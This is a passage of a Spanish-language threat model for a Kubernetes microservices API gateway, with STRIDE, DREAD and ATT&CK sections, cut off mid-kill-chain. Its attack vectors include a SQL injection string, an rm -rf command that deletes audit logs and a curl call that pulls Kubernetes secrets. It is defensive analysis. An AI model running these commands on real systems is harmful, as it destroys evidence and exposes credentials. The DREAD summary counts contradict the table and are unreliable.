

# Análisis de Riesgos - API Gateway para Microservicios
## Documento de Threat Modeling

**Equipo de análisis:** Juan Lamolle, Serafín González, Fernando Rodríguez  
**Fecha de inicio:** 24/05/2026  
**Fecha de entrega:** 26/05/2026  
**Versión del documento:** 1.0

---

## Tabla de Contenidos

1. [Información General del Proyecto](#1-información-general-del-proyecto)
2. [Identificación de Activos](#2-identificación-de-activos)
3. [Arquitectura del Sistema](#3-arquitectura-del-sistema)
4. [Análisis de Amenazas - STRIDE](#4-análisis-de-amenazas---metodología-stride)
5. [Análisis de Riesgos - DREAD](#5-análisis-de-riesgos---metodología-dread)
6. [Mapa de Ataque (ATT&CK)](#6-mapa-de-ataque-attck)
7. [Plan de Mitigación](#7-plan-de-mitigación)
8. [Matriz de Controles (NIST/ISO 27001)](#8-matriz-de-controles-nistiso-27001)
9. [Riesgos Residuales](#9-riesgos-residuales)
10. [Conclusiones y Recomendaciones](#10-conclusiones-y-recomendaciones)
11. [Anexos](#anexos)

---

## 1. Información General del Proyecto

### 1.1 Descripción del Sistema

El sistema bajo análisis es una arquitectura de microservicios moderna que utiliza un **API Gateway** como punto de entrada único para todas las requests de clientes externos. La infraestructura está desplegada en **Kubernetes** y utiliza un **Service Mesh (Istio)** para la comunicación segura entre servicios internos.

**Componentes principales:**

- **API Gateway:** Kong / AWS API Gateway con autenticación OAuth2/JWT
- **WAF:** Web Application Firewall para protección perimetral
- **Service Mesh:** Istio con mTLS para comunicación service-to-service
- **Microservicios:** Users Service, Inventory Service, Orders Service
- **Capa de datos:** PostgreSQL, RabbitMQ, Elasticsearch
- **Cache distribuido:** Redis
- **Orquestación:** Kubernetes cluster
- **Observabilidad:** ELK Stack (Elasticsearch, Logstash, Kibana)

### 1.2 Alcance del Análisis

**Componentes incluidos:**

- API Gateway (Kong/AWS API Gateway)
- Web Application Firewall (ModSecurity/AWS WAF)
- Service Mesh control plane (Istio)
- Microservicios backend (Users, Inventory, Orders)
- Kubernetes cluster (masters, nodes, RBAC)
- Capa de persistencia (PostgreSQL, RabbitMQ, Elasticsearch)
- Redis cache para sesiones y rate limiting
- Sistema de logging centralizado (ELK Stack)
- Comunicación service-to-service (mTLS)
- Mecanismos de autenticación y autorización

**Componentes fuera de alcance:**

- **Pipeline de CI/CD** (Jenkins/GitLab CI)  
  *Razón:* No está expuesto a internet y tiene controles separados
- **Entornos de desarrollo local**  
  *Razón:* No contienen datos de producción
- **Servicios de terceros externos** (APIs de partners)  
  *Razón:* Fuera de nuestro control directo
- **Aplicaciones móviles/web del cliente**  
  *Razón:* Tema de análisis separado

### 1.3 Supuestos

- El sistema está desplegado en un cloud provider (AWS/GCP/Azure) con configuraciones de seguridad baseline del proveedor
- Existe un equipo de operaciones con acceso a los clusters de Kubernetes
- Los desarrolladores tienen acceso limitado vía RBAC de Kubernetes
- Se asume que el código de los microservicios sigue prácticas de desarrollo seguro (OWASP guidelines)
- Los certificados TLS/SSL son gestionados por un servicio como Let's Encrypt o AWS Certificate Manager
- Existe un plan de disaster recovery básico con backups regulares
- El tráfico entre zonas de disponibilidad está encriptado
- Se aplican security groups/network policies básicas del cloud provider

---

## 2. Identificación de Activos

### 2.1 Activos de Información

| ID | Activo | Tipo Dato | Clasificación | Propietario |
|----|--------|-----------|---------------|-------------|
| **A01** | Credenciales de usuario | PII | **Crítico** | Users Svc |
| **A02** | Tokens JWT/OAuth | Auth | **Crítico** | API Gateway |
| **A03** | Datos de pedidos | Transac. | Alto | Orders Svc |
| **A04** | Información de inventario | Negocio | Medio | Inventory |
| **A05** | Logs de aplicación | Operativo | Medio | ELK Stack |
| **A06** | Configuración servicios | Config | Alto | K8s Config |
| **A07** | Secretos de Kubernetes | Credential | **Crítico** | K8s Secrets |
| **A08** | Claves API terceros | Credential | Alto | External |
| **A09** | Session data (Redis) | Sesión | Alto | Redis |
| **A10** | Mensajes en colas | Transac. | Alto | RabbitMQ |

### 2.2 Activos Tecnológicos

| ID | Activo | Tipo | Criticidad | Notas |
|----|--------|------|------------|-------|
| **T01** | API Gateway | Software | **Crítico** | Punto entrada único |
| **T02** | Istio Control Plane | Software | **Crítico** | Gestiona mTLS |
| **T03** | Kubernetes Master | Infra | **Crítico** | Orquestación cluster |
| **T04** | Redis Cluster | Software | Alto | Sesiones y cache |
| **T05** | PostgreSQL DB | Software | **Crítico** | Base de datos principal |
| **T06** | Users Microservice | Software | **Crítico** | Gestión usuarios |
| **T07** | Orders Microservice | Software | Alto | Procesamiento órdenes |
| **T08** | Inventory Service | Software | Medio | Control stock |
| **T09** | RabbitMQ | Software | Alto | Message broker |
| **T10** | Elasticsearch | Software | Medio | Logging centralizado |
| **T11** | WAF | Software | Alto | Protección perimetral |
| **T12** | Kubernetes Nodes | Hardware | Alto | Workers del cluster |
| **T13** | Container Registry | Software | Alto | Almacena imágenes |
| **T14** | Load Balancer | Infra | Alto | Distribución tráfico |

### 2.3 Activos Intangibles

- **Reputación de la empresa:** Pérdida de confianza por brechas de seguridad
- **Confianza de clientes:** Exposición de datos personales o financieros
- **Propiedad intelectual:** Algoritmos de negocio en microservicios
- **Disponibilidad del servicio:** Capacidad de generar revenue 24/7
- **Compliance regulatorio:** Cumplimiento GDPR, SOC2, PCI-DSS

---

## 3. Arquitectura del Sistema

### 3.1 Diagrama de Arquitectura

```
┌────────────────────────────────────────────────────────────┐
│ INTERNET (Untrusted Zone)                                  │
│ • Clientes web (navegadores)                               │
│ • Aplicaciones móviles                                     │
│ • APIs de terceros                                         │
│ • Actores maliciosos                                       │
└────────────────────────────────────────────────────────────┘
                         ↓ HTTPS
┌────────────────────────────────────────────────────────────┐
│  DMZ (Semi-trusted Zone)                                   |
│                                                            │
│  ┌──────────┐   ┌──────────────────┐   ┌────────────────┐  │
│  │   WAF    │ → │  API Gateway     │ → │  Redis Cache   │  │
│  │          │   │  (Kong/AWS)      │   │  (Sessions)    │  │
│  └──────────┘   └──────────────────┘   └────────────────┘  │
│                                                            │
│  • OAuth2/JWT validation                                   │
│  • Rate limiting                                           │
│  • Request routing                                         │
└────────────────────────────────────────────────────────────┘
                         ↓ mTLS
┌────────────────────────────────────────────────────────────┐
│  SERVICE MESH (Trusted Internal - Kubernetes Cluster)      │
│                                                            │
│  ┌───────────────────────────────────────────────────────┐ │
│  │ Istio Control Plane                                   │ │
│  │ • Certificate Management                              │ │
│  │ • Policy Enforcement                                  │ │
│  │ • Telemetry Collection                                │ │
│  └───────────────────────────────────────────────────────┘ │
│                                                            │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐      │
│  │ Users Svc    │  │ Inventory    │  │ Orders Svc   │      │
│  │ + Envoy      │  │ Svc + Envoy  │  │ + Envoy      │      │
│  │ Sidecar      │  │ Sidecar      │  │ Sidecar      │      │
│  └──────────────┘  └──────────────┘  └──────────────┘      │
│                                                            │
│  (mTLS between all services)                               │
└────────────────────────────────────────────────────────────┘
                         ↓ Encrypted connections
┌────────────────────────────────────────────────────────────┐
│  DATA LAYER (Highly Restricted)                            │
│                                                            │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐      │
│  │ PostgreSQL   │  │ RabbitMQ     │  │ Elasticsearch│      │
│  │ (User data)  │  │ (Msg queue)  │  │ (Logs)       │      │
│  └──────────────┘  └──────────────┘  └──────────────┘      │
│                                                            │
│  • Connection pooling                                      │
│  • Encrypted at rest                                       │
│  • Network isolation                                       │
└────────────────────────────────────────────────────────────┘
```

### 3.2 Flujo de Datos

**Flujo típico de una request:**



**1. Cliente → HTTPS → WAF**
- Validación de request
- Filtrado de ataques conocidos (SQL injection, XSS)
- Rate limiting por IP

**2. WAF → API Gateway**
- Validación de token JWT/OAuth2
- Verificación de permisos (scopes)
- Transformación de request si necesario
- Rate limiting por usuario
- Logging de request

**3. API Gateway → Service Mesh (Istio) → Microservicio**
- Establecimiento de conexión mTLS
- Validación de certificados
- Routing basado en headers
- Circuit breaking si servicio está degradado
- Retry logic con backoff

**4. Microservicio → Base de Datos**
- Connection pool
- Prepared statements (SQL)
- Validación de ownership (authorization)
- Transacciones ACID

**5. Microservicio → Response → API Gateway → Cliente**
- Logging de response
- Compresión
- Caching (si aplicable)

**Flujos adicionales:**

- **Async messaging:** Microservicio A → RabbitMQ → Microservicio B
- **Logging:** Todos los servicios → Fluentd → Elasticsearch
- **Metrics:** Istio → Prometheus → Grafana
- **Security events:** Falco → Alertas → PagerDuty

### 3.3 Actores del Sistema

| Actor | Descripción | Privilegios |
|-------|-------------|-------------|
| **Usuario final** | Cliente que usa la aplicación | CRUD en sus datos |
| **Usuario administrador** | Gestor del sistema | Acceso completo UI |
| **Desarrollador** | Equipo de ingeniería | Read K8s pods |
| **DevOps/SRE** | Operaciones de infraestructura | K8s admin, SSH nodes |
| **Security Team** | Equipo de seguridad | SIEM, audit logs |
| **Atacante externo** | Actor malicioso desde internet | Ninguno (evaluar) |
| **Atacante interno** | Insider threat / empleado malicioso | Según rol legítimo |
| **Sistema automatizado** | CI/CD pipeline, cron jobs | Deploy, backups |
| **Servicios terceros** | Payment gateway, email service | APIs específicas |

### 3.4 Trust Boundaries

#### **TB1: Internet ↔ DMZ**
- Todo tráfico desde internet es **NO CONFIABLE** hasta validación
- **Protocolo:** HTTPS obligatorio
- **Validación:** WAF + API Gateway authentication
- **Nivel de confianza:** 0% → 30% (post-autenticación)

#### **TB2: DMZ ↔ Service Mesh**
- Tráfico autenticado pero no completamente confiable
- **Protocolo:** mTLS obligatorio
- **Validación:** Certificados de Istio, RBAC policies
- **Nivel de confianza:** 30% → 70%

#### **TB3: Service Mesh ↔ Data Layer**
- Tráfico interno de servicios verificados
- **Protocolo:** Conexiones encriptadas (TLS to DB)
- **Validación:** Connection strings, credentials rotation
- **Nivel de confianza:** 70% → 90%

#### **TB4: Usuarios ↔ K8s Control Plane**
- Acceso administrativo al cluster
- **Protocolo:** kubectl con client certificates
- **Validación:** RBAC estricto, audit logging
- **Nivel de confianza:** Variable según rol

> **NOTA IMPORTANTE:** No existe confianza transitiva. Cada boundary requiere validación independiente. Por ejemplo, un servicio autenticado NO tiene acceso automático a la base de datos sin credentials propias.

---

## 4. Análisis de Amenazas - Metodología STRIDE

### 4.1 Aplicación de STRIDE

**Categorías STRIDE:**

| Categoría | Descripción |
|-----------|-------------|
| **S** - Spoofing | Suplantación de identidad |
| **T** - Tampering | Manipulación de datos o código |
| **R** - Repudiation | Negación de acciones realizadas |
| **I** - Information Disclosure | Divulgación de información sensible |
| **D** - DoS | Denegación de servicio |
| **E** - Elevation of Privilege | Elevación de privilegios |

### 4.2 Matriz de Amenazas por Componente

| ID | Componente | Categoría | Descripción de la Amenaza | CVE/CWE |
|----|------------|-----------|---------------------------|---------|
| **TH01** | API Gateway | Spoofing | Token JWT falsificado con secreto débil | CWE-287 |
| **TH02** | Service Mesh | Spoofing | Microservicio malicioso se hace pasar por servicio legítimo sin cert válido | CWE-295 |
| **TH03** | Redis | Spoofing | Session hijacking vía session ID robado | CWE-384 |
| **TH04** | API Calls | Spoofing | API key theft desde código/logs | CWE-798 |
| **TH05** | API Gateway | Tampering | Manipulación de request params en vuelo | CWE-20 |
| **TH06** | PostgreSQL | Tampering | SQL Injection vía input no sanitizado | CWE-89 |
| **TH07** | RabbitMQ | Tampering | Modificación de mensajes en cola | CWE-345 |
| **TH08** | Kubernetes | Tampering | ConfigMap/Secret modification runtime | CWE-732 |
| **TH09** | Container Image | Tampering | Imagen Docker infectada en registry | CWE-494 |
| **TH10** | API Gateway | Repudiation | Falta de trazabilidad de acciones | CWE-778 |
| **TH11** | Microservices | Repudiation | Logs eliminados o modificados | CWE-117 |
| **TH12** | Transactions | Repudiation | Usuario niega haber realizado compra | CWE-284 |
| **TH13** | API Gateway | Info Discl | API responses verbosas exponen stack | CWE-209 |
| **TH14** | Logs | Info Discl | PII (emails, SSN) en logs sin encriptar | CWE-532 |
| **TH15** | Redis | Info Discl | Memory dump de Redis expone sesiones | CWE-316 |
| **TH16** | Kubernetes | Info Discl | Secrets en env vars accesibles vía API | CWE-526 |
| **TH17** | Error Messages | Info Discl | Stack traces en producción | CWE-209 |
| **TH18** | API Gateway | DoS | Request flooding satura recursos | CWE-770 |
| **TH19** | Microservices | DoS | Servicio consume toda CPU/memoria | CWE-400 |
| **TH20** | PostgreSQL | DoS | Connection pool exhaustion | CWE-404 |
| **TH21** | RabbitMQ | DoS | Queue flooding con mensajes maliciosos | CWE-770 |
| **TH22** | Istio | DoS | Control plane saturado (DOS) | CWE-400 |
| **TH23** | API Gateway | Elevation | JWT claim manipulation para admin role | CWE-269 |
| **TH24** | Kubernetes | Elevation | Container escape a nodo host | CWE-250 |
| **TH25** | Microservices | Elevation | IDOR permite acceso a recursos ajenos | CWE-639 |
| **TH26** | Service Mesh | Elevation | Bypass de políticas de Istio | CWE-863 |
| **TH27** | RBAC | Elevation | Role misconfiguration (over-privileged) | CWE-266 |

### 4.3 Detalle de Amenazas Principales

#### AMENAZA TH01: Token JWT Falsificado

**Categoría STRIDE:** Spoofing (Suplantación de Identidad)

**Descripción:**  
Un atacante obtiene el secreto JWT (HS256) o descubre una configuración débil que permite generar tokens válidos sin autenticación. Con el secreto, puede crear tokens con cualquier claim (user_id, roles) y autenticarse como cualquier usuario del sistema.

**Activos afectados:** A01 (Credenciales), A02 (Tokens JWT), T01 (API Gateway)

**Probabilidad:** Media

El secreto podría estar expuesto en:
- Variables de entorno loggeadas
- Código fuente en repositorio público
- ConfigMaps de K8s sin encriptar
- Backup dumps accidentales

**Impacto:** Alto
- Acceso completo a todos los endpoints protegidos
- Capacidad de actuar como cualquier usuario (incluyendo admins)
- Exfiltración de datos masiva
- Modificación de datos sin detección

**Técnicas ATT&CK relacionadas:**
- T1078 - Valid Accounts (usar credenciales legítimas falsificadas)
- T1550.001 - Use Alternate Authentication Material (tokens)
- T1552.001 - Credentials In Files (secreto en config files)

**Vector de ataque:**
1. Atacante encuentra secreto JWT en variable de entorno loggeada
2. Usa jwt.io o biblioteca JWT para crear token con claims arbitrarios
3. Inyecta token en header `Authorization: Bearer <token>`
4. API Gateway valida firma (correcta porque usa el secreto real)
5. Accede a recursos sin restricción

**Mitigación recomendada:** Ver sección 7 (Control C02)

---

#### AMENAZA TH06: SQL Injection

**Categoría STRIDE:** Tampering (Manipulación de Datos)

**Descripción:**  
Un endpoint de microservicio concatena input del usuario directamente en una query SQL sin sanitización, permitiendo inyección de código SQL arbitrario.

**Activos afectados:** A03 (Datos pedidos), A04 (Inventario), T05 (PostgreSQL)

**Probabilidad:** Baja (si se usan ORMs correctamente)

**Impacto:** Crítico
- Exfiltración completa de base de datos (UNION-based injection)
- Modificación de datos (UPDATE, DELETE)
- Elevación de privilegios (modificar roles en tabla users)
- Posible ejecución de comandos OS (vía funciones como xp_cmdshell en SQL Server)

**Técnicas ATT&CK relacionadas:**
- T1190 - Exploit Public-Facing Application
- T1213 - Data from Information Repositories (DB)
- T1485 - Data Destruction (DROP TABLE)

**Vector de ataque:**
1. Atacante identifica endpoint de búsqueda: `GET /api/orders?user_id=123`
2. Inyecta payload: `user_id=123' OR '1'='1`
3. Query vulnerable: `SELECT * FROM orders WHERE user_id = '123' OR '1'='1'`
4. Retorna TODAS las órdenes de todos los usuarios
5. Escala a exfiltración con UNION SELECT

**Mitigación recomendada:** Ver sección 7 (Control C05)

---

#### AMENAZA TH14: PII Exposure in Logs

**Categoría STRIDE:** Information Disclosure

**Descripción:**  
Los desarrolladores loggean requests completos para debugging, incluyendo PII como emails, nombres completos, direcciones, o incluso datos de tarjetas de crédito. Los logs se centralizan en Elasticsearch sin encriptación y son accesibles por múltiples equipos.

**Activos afectados:** A01 (Credenciales), A05 (Logs), T10 (Elasticsearch)

**Probabilidad:** Alta
- Muy común en aplicaciones web
- Los desarrolladores priorizan debugging sobre compliance
- Logs suelen tener retención larga (90+ días)

**Impacto:** Crítico (desde perspectiva de compliance)
- Violación de GDPR (Art. 5, 32)
- Multas de hasta 4% del revenue anual global
- Pérdida de confianza de clientes
- Auditorías regulatorias adversas
- Requisitos de notificación de brecha (72 horas)

**Técnicas ATT&CK relacionadas:**
- T1530 - Data from Cloud Storage Object (Elasticsearch)
- T1005 - Data from Local System

**Vector de ataque:**
1. Log statement: `logger.info(Request received: ${JSON.stringify(req.body)})`
2. Request contiene: `{ email: "user@example.com", password: "..." }`
3. Logs se centralizan en Elasticsearch
4. Atacante obtiene acceso a Kibana (credenciales débiles, no MFA)
5. Busca: `email:*@*` en Kibana
6. Exfiltra miles de emails y datos personales

**Mitigación recomendada:** Ver sección 7 (Control C03)

---

#### AMENAZA TH18: API Flooding / DDoS

**Categoría STRIDE:** Denial of Service

**Descripción:**  
Un atacante genera millones de requests al API Gateway, saturando recursos de CPU/memoria/red y haciendo el sistema inaccesible para usuarios legítimos.

**Activos afectados:** T01 (API Gateway), T06-T08 (Microservices), Todos usuarios

**Probabilidad:** Alta
- No requiere autenticación (endpoints públicos)
- Herramientas gratuitas disponibles (LOIC, Slowloris)
- Botnets disponibles para alquiler

**Impacto:** Crítico
- Sistema completamente inaccesible
- Pérdida directa de revenue (no hay transacciones)
- Daño reputacional
- Costos de cloud scaling descontrolado

**Técnicas ATT&CK relacionadas:**
- T1499.002 - Service Exhaustion Flood
- T1499.004 - Application or System Exploitation

**Vector de ataque:**
1. Atacante usa botnet de 10,000 IPs
2. Cada IP envía 100 req/sec a endpoints públicos
3. Total: 1,000,000 req/sec
4. API Gateway intenta procesar todas
5. CPU al 100%, memoria agotada
6. Health checks fallan
7. Sistema se cae completamente

**Mitigación recomendada:** Ver sección 7 (Control C01)

---

#### AMENAZA TH24: Container Escape

**Categoría STRIDE:** Elevation of Privilege

**Descripción:**  
Un atacante que ha comprometido un container explota una vulnerabilidad en el runtime (runC, containerd) para escapar al nodo host y obtener acceso root al sistema operativo subyacente.

**Activos afectados:** T12 (K8s Nodes), T03 (K8s Master), Todos los containers

**Probabilidad:** Baja
- Requiere CVE específico en runtime
- Configuraciones de seguridad pueden prevenir

**Impacto:** Crítico
- Control total del nodo host
- Acceso a todos los containers en el nodo
- Posibilidad de acceder a secretos de kubelet
- Movimiento lateral a otros nodos
- Persistencia difícil de detectar

**Técnicas ATT&CK relacionadas:**
- T1611 - Escape to Host
- T1068 - Exploitation for Privilege Escalation

**Vector de ataque:**
1. Atacante ejecuta código en container (vía RCE en app)
2. Explota CVE-2019-5736 (runC vulnerability)
3. Sobrescribe binario de runC en host
4. Próxima ejecución de container da acceso root al host
5. Desde host, accede a `/var/lib/kubelet/pods/`
6. Lee secretos de otros pods
7. Pivotea a Kubernetes API con service account token robado

**Mitigación recomendada:** Ver sección 7 (Control C07)

---

#### AMENAZA TH25: IDOR (Insecure Direct Object Reference)

**Categoría STRIDE:** Elevation of Privilege

**Descripción:**  
La aplicación no valida que el usuario tenga ownership del recurso solicitado, permitiendo acceso simplemente cambiando un ID en la URL.

**Activos afectados:** A03 (Datos de pedidos), A01 (Datos de usuarios)

**Probabilidad:** Alta
- Muy común en APIs REST
- OWASP API Security Top 10 #1

**Impacto:** Alto
- Acceso a información de otros usuarios
- Violación de confidencialidad
- Posible exfiltración masiva vía enumeración

**Técnicas ATT&CK relacionadas:**
- T1190 - Exploit Public-Facing Application
- T1087 - Account Discovery (enumeration)

**Vector de ataque:**
1. Usuario autenticado hace `GET /api/orders/12345`
2. Ve su propia orden
3. Cambia ID: `GET /api/orders/12346`
4. Backend NO valida ownership
5. Retorna orden de otro usuario
6. Atacante enumera: 12347, 12348, 12349...
7. Exfiltra todas las órdenes de todos los usuarios

**Mitigación recomendada:** Ver sección 7 (Control C05)

---

## 5. Análisis de Riesgos - Metodología DREAD

### 5.1 Criterios DREAD

| Criterio | Descripción | Peso |
|----------|-------------|------|
| **D**amage | Daño potencial si se explota | 1.0 |
| **R**eproducibility | Facilidad de reproducción | 1.0 |
| **E**xploitability | Dificultad para explotar | 1.0 |
| **A**ffected Users | Cantidad de usuarios afectados | 1.0 |
| **D**iscoverability | Facilidad de descubrimiento | 1.0 |

**Escala:** 1-10 (1=mínimo, 10=máximo)

#### Interpretación de Escala

**Damage (Daño):**
- **10** = Compromiso completo del sistema
- **7-9** = Daño significativo a múltiples activos
- **4-6** = Daño moderado, activos limitados
- **1-3** = Daño mínimo, no crítico

**Reproducibility (Reproducibilidad):**
- **10** = Siempre funciona, 100% reproducible
- **7-9** = Funciona frecuentemente
- **4-6** = Funciona a veces, condiciones específicas
- **1-3** = Rara vez funciona, muy específico

**Exploitability (Explotabilidad):**
- **10** = Muy fácil, script kiddie puede hacerlo
- **7-9** = Fácil, herramientas disponibles
- **4-6** = Moderado, requiere conocimiento técnico
- **1-3** = Difícil, requiere expertise avanzado

**Affected Users (Usuarios Afectados):**
- **10** = Todos los usuarios del sistema
- **7-9** = Muchos usuarios
- **4-6** = Algunos usuarios
- **1-3** = Muy pocos usuarios

**Discoverability (Descubribilidad):**
- **10** = Muy fácil de encontrar, obvio
- **7-9** = Fácil, scanners automáticos
- **4-6** = Promedio, requiere análisis
- **1-3** = Difícil, requiere acceso privilegiado

### 5.2 Matriz de Riesgos

| ID | Amenaza | D | R | E | A | D | TOTAL | Nivel |
|----|---------|---|---|---|---|---|-------|-------|
| **TH18** | API Flooding / DDoS | 9 | 10 | 9 | 10 | 8 | **46/50** | CRÍTICO |
| **TH25** | IDOR - Acceso no autorizado | 7 | 9 | 9 | 8 | 9 | **42/50** | CRÍTICO |
| **TH06** | SQL Injection | 10 | 8 | 6 | 9 | 8 | **41/50** | CRÍTICO |
| **TH14** | PII Exposure in Logs | 10 | 9 | 6 | 8 | 7 | **40/50** | CRÍTICO |
| **TH09** | Container Image Tampering | 10 | 8 | 6 | 10 | 5 | **39/50** | ALTO |
| **TH01** | JWT Token Falsification | 9 | 9 | 5 | 9 | 7 | **39/50** | ALTO |
| **TH16** | K8s Secret Exposure | 10 | 8 | 5 | 9 | 6 | **38/50** | ALTO |
| **TH23** | JWT Privilege Escalation | 9 | 7 | 6 | 8 | 7 | **37/50** | ALTO |
| **TH03** | Session Hijacking (Redis) | 8 | 7 | 6 | 7 | 7 | **35/50** | ALTO |
| **TH19** | Microservice Resource Exh. | 8 | 7 | 7 | 8 | 6 | **36/50** | ALTO |
| **TH20** | DB Connection Pool Exhaust | 8 | 6 | 6 | 9 | 6 | **35/50** | ALTO |
| **TH24** | Container Escape to Host | 10 | 5 | 4 | 9 | 5 | **33/50** | ALTO |
| **TH02** | Service Mesh Spoofing | 8 | 5 | 5 | 8 | 5 | **31/50** | ALTO |
| **TH07** | RabbitMQ Message Tampering | 7 | 6 | 5 | 7 | 5 | **30/50** | ALTO |
| **TH05** | Request Parameter Tampering | 6 | 8 | 7 | 6 | 7 | **34/50** | ALTO |
| **TH13** | Verbose API Responses | 5 | 8 | 8 | 6 | 8 | **35/50** | ALTO |
| **TH10** | Lack of Audit Trail | 6 | 7 | 6 | 7 | 6 | **32/50** | ALTO |
| **TH11** | Log Tampering/Deletion | 7 | 6 | 5 | 8 | 5 | **31/50** | ALTO |
| **TH21** | RabbitMQ Queue Flooding | 7 | 7 | 6 | 7 | 6 | **33/50** | ALTO |
| **TH26** | Istio Policy Bypass | 8 | 5 | 4 | 8 | 5 | **30/50** | ALTO |
| **TH27** | RBAC Misconfiguration | 7 | 6 | 5 | 6 | 6 | **30/50** | ALTO |
| **TH08** | K8s ConfigMap Modification | 8 | 5 | 4 | 7 | 5 | **29/50** | MEDIO |
| **TH15** | Redis Memory Dump Exposure | 7 | 5 | 4 | 6 | 4 | **26/50** | MEDIO |
| **TH17** | Stack Traces in Production | 4 | 8 | 8 | 5 | 8 | **33/50** | ALTO |
| **TH22** | Istio Control Plane DOS | 8 | 4 | 4 | 8 | 4 | **28/50** | MEDIO |
| **TH04** | API Key Theft | 6 | 6 | 6 | 5 | 6 | **29/50** | MEDIO |
| **TH12** | Transaction Repudiation | 5 | 5 | 5 | 6 | 5 | **26/50** | MEDIO |

### 5.3 Escala de Severidad

- **CRÍTICO (40-50):** Remediar inmediatamente (Sprint actual)
- **ALTO (30-39):** Remediar ASAP (Próximo sprint)
- **MEDIO (20-29):** Remediar en 2-3 sprints
- **BAJO (10-19):** Monitorear y evaluar
- **MÍNIMO (1-9):** Aceptar riesgo documentado

**Distribución de amenazas:**
- **CRÍTICO:** 4 amenazas (TH18, TH25, TH06, TH14)
- **ALTO:** 16 amenazas
- **MEDIO:** 7 amenazas
- **BAJO:** 0 amenazas
- **MÍNIMO:** 0 amenazas

**TOTAL:** 27 amenazas identificadas

---

## 6. Mapa de Ataque (ATT&CK)

### 6.1 Técnicas Identificadas

| ID | Técnica | Tactic | Mitigación |
|----|---------|--------|------------|
| T1190 | Exploit Public-Facing Application | Initial Access | WAF, Input validation |
| T1078 | Valid Accounts | Initial Access | MFA, Strong passwords |
| T1133 | External Remote Services | Initial Access | VPN, Network segmentation |
| T1609 | Container Administration Command | Execution | RBAC, Admission controllers |
| T1610 | Deploy Container | Execution | Image signing, Registry auth |
| T1136 | Create Account | Persistence | Account auditing |
| T1098 | Account Manipulation | Persistence | Privileged account monitoring |
| T1525 | Implant Internal Image | Persistence | Image scanning, Signing |
| T1611 | Escape to Host | Privilege Escal. | Security contexts, AppArmor |
| T1078.004 | Cloud Accounts | Privilege Escal. | IAM policies, Least privilege |
| T1068 | Exploitation for Privilege Escal. | Privilege Escal. | Patching, Kernel hardening |
| T1562.001 | Disable or Modify Tools | Defense Evasion | File integrity monitoring |
| T1070.004 | File Deletion | Defense Evasion | Immutable logs, Write-once storage |
| T1112 | Modify Registry | Defense Evasion | Configuration management |
| T1552.001 | Credentials in Files | Credential Access | Secrets management, Vault |
| T1552.007 | Container API | Credential Access | RBAC, Network policies |
| T1606 | Forge Web Credentials | Credential Access | Strong signing, Secret rotation |
| T1613 | Container and Resource Discovery | Discovery | Network segmentation, RBAC |
| T1046 | Network Service Scanning | Discovery | Firewall, IDS/IPS |
| T1087 | Account Discovery | Discovery | Least privilege |
| T1021 | Remote Services | Lateral Movement | Network segmentation, MFA |
| T1534 | Internal Spearphishing | Lateral Movement | Email security, Training |
| T1530 | Data from Cloud Storage Object | Collection | Access controls, Encryption |
| T1005 | Data from Local System | Collection | DLP, Encryption |
| T1537 | Transfer Data to Cloud Account | Exfiltration | DLP, Network monitoring |
| T1048 | Exfiltration Over Alternative Protocol | Exfiltration | DNS monitoring, Firewall |
| T1499 | Endpoint Denial of Service | Impact | Rate limiting, DDoS protection |
| T1485 | Data Destruction | Impact | Backups, Immutable storage |
| T1486 | Data Encrypted for Impact | Impact | Backups, EDR |

### 6.2 Visualización - Kill Chain Completo

**Escenario:** Compromiso desde API Gateway hasta exfiltración de datos

```
┌────────────────────────────────────────────────────────────────┐
│ FASE 1: Initial Access                                         │
│ [T1190] Exploit Public-Facing Application                      │
│ Atacante explota CVE en Kong API Gateway sin patchear          │
│ Vector: Request malicioso a endpoint vulnerable                │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 2: Execution                                              │
│ [T1609] Container Administration Command                       │
│ Ejecuta comando en el container de Kong                        │
│ Vector: kubectl exec via vulnerabilidad                        │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 3: Persistence                                            │
│ [T1525] Implant Internal Image                                 │
│ Modifica imagen Docker en registry con backdoor                │
│ Vector: Credenciales de registry en ConfigMap                  │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 4: Privilege Escalation                                   │
│ [T1611] Escape to Host                                         │
│ Container escape vía CVE-2019-5736 (runC)                      │
│ Vector: Sobrescribe binario runC, obtiene root en nodo         │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 5: Defense Evasion                                        │
│ [T1070.004] File Deletion                                      │
│ Elimina logs de kubectl audit en nodo host                     │
│ Vector: rm -rf /var/log/kubernetes/audit/*                     │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 6: Credential Access                                      │
│ [T1552.007] Container API                                      │
│ Extrae Kubernetes Secrets vía API                              │
│ Vector: curl -k https://kubernetes.default/api/v1/namespaces/  │
